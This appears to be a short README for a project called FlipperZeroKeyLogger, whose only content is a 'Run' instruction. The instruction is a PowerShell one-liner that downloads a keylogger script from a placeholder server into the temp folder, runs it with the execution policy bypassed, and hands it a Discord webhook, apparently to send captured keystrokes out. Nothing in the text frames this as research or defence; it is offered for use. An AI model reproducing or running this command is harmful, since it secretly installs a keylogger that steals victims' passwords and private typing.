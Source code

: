 # FlipperZeroKeyLogger
FlipperZeroKeyLogger

## Run
$discord = '<your_webhook_here>' Invoke-WebRequest -Uri 'http://your-server.com/keylogger.ps1' -OutFile "$env:TEMP\keylogger.ps1" powershell.exe -ExecutionPolicy Bypass -File "$env:TEMP\keylogger.ps1" -discord $discord
